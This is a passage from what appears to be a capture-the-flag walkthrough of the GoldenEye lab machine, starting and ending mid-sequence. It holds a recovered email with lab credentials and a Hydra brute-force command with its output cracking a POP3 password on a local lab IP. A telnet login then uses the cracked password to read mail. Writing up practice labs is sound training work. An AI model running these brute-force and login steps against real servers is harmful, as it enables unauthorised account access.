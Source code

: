 Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: Xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.

quit
+OK Logging out.
Connection closed by foreign host.



http://severnaya-station.com/gnocertdir/blog/index.php?courseid=0



Messages:
 09:24 PM: Greetings Xenia,

As a new Contractor to our GoldenEye training I welcome you. Once your account has been complete, more courses will appear on your dashboard. If you have any questions message me via email, not here.

My email username is...

doak

Thank you,

Cheers,

Dr. Doak "The Doctor"



└─$ hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3s://192.168.56.101 -s 55006
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-15 07:16:57
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3s://192.168.56.101:55006/
[55006][pop3] host: 192.168.56.101   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-15 07:18:43
       


└─$ telnet 192.168.56.101 55007
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user doak                                                                               
+OK
pass goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
+OK 606 octets